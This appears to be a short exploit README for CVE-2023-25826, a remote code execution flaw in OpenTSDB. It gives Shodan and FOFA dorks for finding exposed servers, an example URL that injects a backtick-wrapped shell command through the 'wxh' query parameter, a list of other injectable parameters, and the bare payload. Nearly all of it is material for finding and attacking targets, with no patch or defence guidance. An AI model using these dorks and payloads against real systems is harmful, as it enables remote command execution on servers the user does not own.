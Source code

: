 # CVE-2023-25826
![](https://img.shields.io/static/v1?label=Product&message=OpenTSDB&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=All%20Current%20Versions%20<=%202.4.1&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


- Shodan dork:
```
http.favicon.hash:407286339
```
- FOFA dork:
```
icon_hash="407286339"
```

### Usage
```
The paramenter wxh needs some sanitation before being used by opentsdb.

See example url:

http://target_url:4242/q?start=2016/04/13-10:21:00&ignore=2&m=sum:jmxdata.cpu&o=&yrange=[0:]&key=out%20right%20top&wxh=1900x770%60id%60&style=linespoint&png

Results in RCE unfortunately

More parameters:

    wxh
    start
    m
    o
    key
    style
```
Payload:
```
%60id%60
```
